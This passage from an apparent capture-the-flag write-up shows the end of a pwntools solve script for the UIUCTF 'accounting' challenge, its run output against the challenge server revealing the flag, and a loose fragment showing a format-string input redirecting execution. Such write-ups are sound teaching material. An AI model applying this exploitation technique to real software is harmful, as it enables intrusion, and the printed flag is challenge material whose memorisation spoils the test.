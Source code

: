     print(conn.recvuntil("Shrub Trimming Cost: "))
    conn.sendline('26')

    # Second price input
    print(conn.recvuntil("Raymond Hush $$ Cost: "))
    conn.sendline('27')

    # Third price input
    print(conn.recvuntil("Town Hall Food Cost: "))
    conn.sendline('21')

    # Last price input
    print(conn.recvuntil("New Wall Art Cost: "))
    conn.sendline('22')
    
    conn.interactive()

if __name__ == "__main__":
    main()
{% endraw %}
{% endhighlight %}


Running the exploit script against the challenge server:
{% highlight text %}
{% raw %}
➜  accounting python solve.py REMOTE
[+] Opening connection to chal.uiuc.tf on port 2001: Done
b'[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {'
print_flag address:  0x8048878
b'\n[NookAccounting]: Added "Apples" with cost of 10 bells to accounting spreadsheet.\n[NookAccounting]: Added "Fancy Seashells" with cost of 20 bells to accounting spreadsheet.\n[NookAccounting]: Added "Tom Nook Shirts" with cost of 30 bells to accounting spreadsheet.\n[NookAccounting]: Added "Airplane Ticket" with cost of 40 bells to accounting spreadsheet.\n[NookAccounting]: Added "ATM Repairs" with cost of 50 bells to accounting spreadsheet.\n[Isabelle]: Oh no! I cant seem to find what this item is, but it cost 25 bells, what is it?\nItem: '
b'[Isabelle]: Ohmygosh! Thank you for remembering! Now I can get back to work!\n[NookAccounting]: Added "AAAAAAAAAAAAAAA" with cost of 25 bells to accounting spreadsheet.\n\n[Isabelle]: Ohmyheck! I dont know how much "Shrub Trimming" costs. Can you tell me?\nShrub Trimming Cost: '
b'[NookAccounting]: Added "Shrub Trimming" with cost of 26 bells to accounting spreadsheet.\n\n\n[Isabelle]: Thank you so much! You\'re the best, I added it to the accounting system now\n[Isabelle]: Ohmyheck! I dont know how much "Raymond Hush $$" costs. Can you tell me?\nRaymond Hush $$ Cost: '
b'[NookAccounting]: Added "Raymond Hush $$" with cost of 27 bells to accounting spreadsheet.\n\n\n[Isabelle]: Thank you so much! You\'re the best, I added it to the accounting system now\n[Isabelle]: Ohmyheck! I dont know how much "Town Hall Food" costs. Can you tell me?\nTown Hall Food Cost: '
b'[NookAccounting]: Added "Town Hall Food" with cost of 21 bells to accounting spreadsheet.\n\n\n[Isabelle]: Thank you so much! You\'re the best, I added it to the accounting system now\n[Isabelle]: Ohmyheck! I dont know how much "New Wall Art" costs. Can you tell me?\nNew Wall Art Cost: '
[*] Switching to interactive mode
[NookAccounting]: Added "New Wall Art" with cost of 22 bells to accounting spreadsheet.


[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x8048878
uiuctf{1s@beLl3_do3sNt_r3@l1y_d0_MuCh_!n_aCnH}
{% endraw %}
{% endhighlight %}


[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {0x8048878}
[NookAccounting]: Added "%x %x %x AAAAAA" with cost of 25 bells to accounting spreadsheet.
[NookAccounting]: Added "Shrub Trimming" with cost of 1 bells to accounting spreadsheet.
[NookAccounting]: Added "Raymond Hush $$" with cost of -1 bells to accounting spreadsheet.
[NookAccounting]: Added "Town Hall Food" with cost of 0 bells to accounting spreadsheet.
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x80487a6